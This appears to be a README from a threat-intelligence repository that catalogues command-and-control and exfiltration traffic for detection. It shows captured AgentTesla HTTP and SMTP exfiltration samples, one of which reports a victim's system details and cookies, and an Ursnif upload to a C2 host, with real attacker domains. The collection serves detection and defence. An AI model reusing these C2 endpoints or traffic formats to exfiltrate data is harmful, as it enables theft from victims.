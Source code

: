 ### A repo for matching on known c2 and exfil traffic keywords (ctrl+f to search)

#### AgentTesla http:

POST /zin/WebPanel/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)
Content-Type: application/x-www-form-urlencoded
Host: megaplast.co.rs
Content-Length: 308
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

p=G1DZYwdIiDZ6V83seaZCmTT0wiCyOlXVS0OEx4YpkUAOuKO/6hfQJ%2BZD2LjpTbyu9w0gudjYXCIc0Ul74wtsvtqYLYuTR%2BlFVl%2B5deG0RnTTo6nFc1M9tx0%2BRo7WXetRdIHkmVMMSeqH%2BEroM7yttDzosvKfKgB%2BJ07oqT/YvQ6CPNW2%2BCETCU6oIlO9XYyrEy6/hYeF%2BgkfRc9xSEfZhh/7Wk0khJ4zZJ3cjEvXDxJcQWA739/yDUy4kOAndihYsWnLw1mVCHxJSJf7%2BguB9f4DpgX10NLpH

![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-http.png "AgentTesla HTTP")

#### AgentTesla smtp exil:

From: office@larbaxpo[.]com
To: officelogs@larbaxpo[.]com
Date: 9 Oct 2019 17:58:19 +0100
Subject: admin/USER-PC Recovered Cookies
Content-Type: multipart/mixed;
 boundary=--boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7


----boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 10/09/2019 17:58:13<br>UserName: admin<br>ComputerName: USE=
R-PC<br>OSFullName: Microsoft Windows 7 Professional <br>CPU: Int=
el(R) Core(TM) i5-6400 CPU @ 2.70GHz<br>RAM: 3583.61 MB<br>IP: 18=
5.183.107.236=0A<hr>

![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-submission.png "AgentTesla Submission")

#### Ursnif:

POST /images/wsF0B4sp/ZaYjjdVgt73Q1BSOy_2Fofi/qF_2BfPTuK/5Ha_2F0xEvmbSfT_2/FluJ8ZF_2Fx8/g6xkZAZrZwN/2skHgzv92i_2BS/uPf4RDQvATKCgx0GZ5gez/ph_2BLcscLQkKDVw/HGZ6zA6DhGCqgPD/VTX09Q_2FUWIFyWps1/nfJ0I3rIZ/QNKbXjeu7xXa3W_2FZSX/bcWtE2zC4RafXFoRlqL/4EC4YHwclzkXrfX/58a3.bmp HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary=36775038942641984568
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 399
Host: shoshanna.at

--36775038942641984568
Content-Disposition: form-data; name="upload_file"; filename="78C6.bin"

\.\..V.]:.o..<]......H..)E.J=x...e%3..U.@.f......].tZ..1....g..OzC.5v.?o.NL...;..)..E.G.a~.....M#;.Cu;N/.3\$....x.....R....e..5.....-mW,..	..C................n.G.|..k0...@...?I.Iu......9k^.U6tzT9.b.3....#..V.4].La....zL.h+...aa..H.D.....Ar.......3.w.<.!.-.....|F9! 3.....7
--36775038942641984568--

![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ursnif.png "Ursnif POST")

